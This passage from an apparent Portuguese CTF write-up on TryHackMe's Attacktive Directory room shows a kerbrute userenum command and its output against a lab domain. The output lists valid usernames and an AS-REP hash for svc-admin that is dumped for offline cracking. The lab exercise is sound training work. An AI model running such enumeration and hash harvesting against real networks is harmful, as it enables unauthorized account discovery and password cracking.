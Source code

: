 ![kerbrute](kerbrute.png)

E o comando que nos interessa é o **"userenum"**.

### **2.** **What notable account is discovered?**

Para descobrir os usuários, vamos utilizar o comando `"kerbrute userenum -dc 10.10.29.131 -d spookysec.local userlist.txt"`:

Onde temos:

- `-dc:` IP do servidor.
- `-d:` Domínio que encontramos anteriomente utilizando o nmap.
- `userlist.txt:` Lista de usuários que pode ser encontrada [aqui](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt).

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/Try_Hack_Me/AttacktiveDirectory                                                                   15:29:51
╰──➤ /root/Documents/tools/kerbrute/kerbrute userenum --dc 10.10.4.102 -d spookysec.local userlist.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (n/a) - 03/28/23 - Ronnie Flathers @ropnop

2023/03/28 15:34:06 >  Using KDC(s):
2023/03/28 15:34:06 >   10.10.4.102:88

2023/03/28 15:34:07 >  [+] VALID USERNAME:       james@spookysec.local
2023/03/28 15:34:14 >  [+] svc-admin has no pre auth required. Dumping hash to crack offline:
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:f9dc7f8e405ced94d5a484133ec7ce55$c120918b5ea1549e9f8728e82d06f8290df0ef3342d168201252df5e4e1f96d53b5911ed96c12a4876a94ec9fdabed3c2a0ff6624bea2d97f81b6bcff6eea9dbe3d7afb86e10c4cc42a21d6739a8eb8c4c6f91b7a1b036f819f3f437e0564468643e0e25fe736fed951424632e9fc7484ae9ad7bdc94c54d6c09f3e6e5e889d06233718ad41602a4c78b3366a58c9836a365494e82f1a23524bb102fea4606f009360139d8070c2e6d6fe924a3db8f2019f58744882a2e363e611baeb0af3ee82d8ef157de727ac8ddfd757141bd5b319db60b098696a17894c5dd6b43d2f228e2e36c1b44b71b832706707651ceb2e77604
2023/03/28 15:34:14 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2023/03/28 15:34:26 >  [+] VALID USERNAME:       James@spookysec.local
2023/03/28 15:34:29 >  [+] VALID USERNAME:       robin@spookysec.local
2023/03/28 15:34:56 >  [+] VALID USERNAME:       darkstar@spookysec.local
2023/03/28 15:35:15 >  [+] VALID USERNAME:       administrator@spookysec.local
2023/03/28 15:35:48 >  [+] VALID USERNAME:       backup@spookysec.local
2023/03/28 15:36:04 >  [+] VALID USERNAME:       paradox@spookysec.local
2023/03/28 15:37:50 >  [+] VALID USERNAME:       JAMES@spookysec.local
2023/03/28 15:38:24 >  [+] VALID USERNAME:       Robin@spookysec.local
2023/03/28 15:41:49 >  [+] VALID USERNAME:       Administrator@spookysec.local
2023/03/28 15:47:53 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2023/03/28 15:50:03 >  [+] VALID USERNAME:       Paradox@spookysec.local
2023/03/28 15:56:23 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
2023/03/28 15:58:12 >  [+] VALID USERNAME:       ori@spookysec.local
2023/03/28 16:01:39 >  [+] VALID USERNAME:       ROBIN@spookysec.local
2023/03/28 16:10:05 >  Done! Tested 73317 usernames (16 valid) in 2158.266 seconds
```
